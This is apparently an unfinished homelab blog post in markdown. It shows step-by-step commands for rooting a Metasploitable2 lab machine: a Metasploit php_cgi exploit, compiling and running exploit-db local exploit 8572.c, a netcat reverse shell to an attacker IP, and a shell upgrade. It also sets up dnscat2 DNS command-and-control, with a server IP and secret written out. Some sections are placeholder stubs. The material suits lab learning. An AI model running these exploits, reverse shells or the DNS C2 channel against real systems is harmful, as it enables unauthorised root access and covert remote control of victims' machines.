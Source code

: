 ```yaml
---
title: A quick referesher of the homelab
categories: [homelab]
tags: [homelab, domain, dns, dnscat2]     # TAG names should always be lowercase
---
```


[main](/posts/lab_main)
## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Root Access:
nc listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

nc listener on attacking machine: `whoami`
A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
> You should have the root access
{: .prompt-info}

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://youtu.be/p8wbebEgtDk)
Else, (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. Setup domain
3. Set low ttl for each DNS record type:
4. [Get a domain name]
5. Add your ip as nameserver //need more info

## DNS based data exfiltration
Src: tryhackme.com //link
Steps:
1. kdjf

## C2 using dnscat2
Download dnscat2:

Server:
```zsh
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R tlab /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install

sudo ruby ./dnscat2.rb tlab.site # your domain name
dnscat2> start --dns port=53531,domain=tlab.site # you'll get the secret value
# on client
sudo ./dnscat --dns port=53531,server=159.223.182.91 --secret=9101ccfc58f3f9af8
912718cc573d95e
# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	window -i 2 # go to the sh window
	

```

## Active Directory setup
1. Steps I used
2. I found a good link //link . Yeah, I did just that
